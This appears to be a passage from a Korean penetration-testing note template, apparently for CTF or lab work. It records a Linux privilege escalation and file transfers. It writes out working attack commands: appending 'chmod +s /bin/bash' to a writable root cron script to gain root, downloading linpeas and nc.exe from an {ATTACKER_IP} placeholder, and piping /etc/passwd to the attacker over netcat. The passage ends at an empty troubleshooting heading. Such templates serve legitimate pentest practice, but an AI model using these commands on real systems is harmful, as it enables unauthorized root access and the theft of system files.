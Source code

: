 ### 🔺 권한상승 시도시

```
=== PRIVILEGE ESCALATION: {IP} ===
Current User: www-data
OS: Linux Ubuntu 18.04

ENUMERATION COMPLETED:
[ ] LinPEAS: /tmp/linpeas.sh
[ ] SUID Files: find / -perm -4000 -type f 2>/dev/null
[ ] Sudo: sudo -l
[ ] Cron: cat /etc/crontab
[ ] Services: ps aux

VULNERABILITIES FOUND:
1. SUID Binary: /usr/bin/custom_app
   - Analysis: strings /usr/bin/custom_app
   - Exploit: Buffer Overflow in parameter

2. Cronjob: */5 * * * * root /opt/cleanup.sh
   - Writable: ls -la /opt/cleanup.sh
   - Exploit: echo 'chmod +s /bin/bash' >> /opt/cleanup.sh

SUCCESSFUL EXPLOIT:
Method: Writable script in cron
Command: echo 'chmod +s /bin/bash' >> /opt/cleanup.sh
Wait: 5 minutes
Escalate: /bin/bash -p
Result: root
```

### 💾 파일 전송 기록

```
=== FILE TRANSFERS ===
UPLOAD TO TARGET:
- linpeas.sh: python3 -m http.server 8000 → wget http://{ATTACKER_IP}:8000/linpeas.sh
- nc.exe: impacket-smbserver share $(pwd) → copy \\{ATTACKER_IP}\share\nc.exe
- payload.php: curl -X POST -F "file=@payload.php" http://{IP}/upload.php

DOWNLOAD FROM TARGET:
- /etc/passwd: cat /etc/passwd | nc {ATTACKER_IP} 4444
- database.db: python3 -m http.server 8000 → wget http://{IP}:8000/database.db
- backup.zip: smbclient //{IP}/share -N → get backup.zip
```

---

## 🚨 문제 해결

### 📝 노트가 복잡해질 때

